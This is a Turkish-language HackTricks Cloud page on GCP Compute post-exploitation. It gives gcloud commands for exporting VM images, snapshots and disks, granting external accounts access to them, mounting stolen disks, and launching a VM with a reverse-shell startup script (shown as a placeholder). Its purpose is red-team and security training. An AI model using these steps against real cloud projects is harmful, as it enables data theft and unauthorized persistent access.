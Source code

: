 # GCP - Compute Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Compute

Compute ve VPC (Ağ) hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Görüntüleri yerel olarak dışa aktarın ve inceleyin

Bu, bir saldırganın **zaten mevcut görüntülerde bulunan verilere erişmesine** veya **çalışan VM'lerin yeni görüntülerini oluşturmasına** ve çalışan VM'ye erişim olmadan verilerine erişmesine olanak tanır.

Bir VM görüntüsünü bir kovaya dışa aktarmak ve ardından indirmek ve yerel olarak bağlamak mümkündür. 

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Bu işlemi gerçekleştirmek için saldırganın depolama kovası üzerinde yetkilere ve kesinlikle **cloudbuild üzerinde yetkilere** ihtiyacı olabilir, çünkü bu **hizmet** dışa aktarma işlemini gerçekleştirmesi istenecektir.\
Ayrıca, bunun çalışması için codebuild SA ve compute SA'nın ayrıcalıklı izinlere ihtiyacı vardır.\
Cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` için gerekli olanlar:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Ve SA `<project-id>-compute@developer.gserviceaccount.com` için gerekli olanlar:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Anlık Görüntüleri ve Diskleri Yerel Olarak Dışa Aktarma ve İnceleme

Anlık görüntüleri ve diskleri doğrudan dışa aktarmak mümkün değildir, ancak **bir anlık görüntüyü bir diske, bir diski bir görüntüye dönüştürmek** ve **önceki bölümdeki** adımları takip ederek, o görüntüyü dışa aktararak yerel olarak incelemek mümkündür.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Bir VM Oluşturarak Bir Görüntüyü İnceleme

Bir saldırganın **bir görüntü oluşturduğu** yerden **bir görüntüde depolanan verilere** veya **çalışan bir VM içindeki verilere** erişim sağlama amacıyla, bir dış hesaba görüntüye erişim izni vermek mümkündür:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
ve ardından ondan yeni bir VM oluşturun:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Eğer dış hesabınıza görüntü üzerinden erişim veremiyorsanız, kurbanın projesinde o görüntüyü kullanarak bir VM başlatabilir ve **metadata'yı bir ters shell çalıştıracak şekilde ayarlayarak** görüntüye erişmek için parametre ekleyebilirsiniz:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Bir Snapshot/Disk'i bir VM'ye Ekleyerek İnceleme

**Bir disk veya snapshot'ta depolanan verilere erişim sağlama amacıyla, snapshot'ı bir diske, diski bir imaja dönüştürebilir ve önceki adımları takip edebilirsiniz.**

Ya da **bir dış hesaba disk üzerinde erişim verebilirsiniz** (başlangıç noktası bir snapshot ise, snapshot üzerinde erişim verin veya ondan bir disk oluşturun):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Bir diski** bir örneğe ekleyin:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Diski VM içinde bağlayın:

1.  **VM'ye SSH ile bağlanın**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Diski Tanımlayın**: VM'ye girdikten sonra, disk cihazlarını listeleyerek yeni diski tanımlayın. Genellikle, `/dev/sdb`, `/dev/sdc` gibi bulabilirsiniz.
3. **Diski Formatlayın ve Bağlayın** (eğer yeni veya ham bir diskse):
*   Bir bağlama noktası oluşturun:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Diski bağlayın:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Eğer **snapshot veya diske dış bir projeye erişim veremiyorsanız**, bu işlemleri **snapshot/disk ile aynı projedeki bir örnek içinde gerçekleştirmeniz gerekebilir**.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
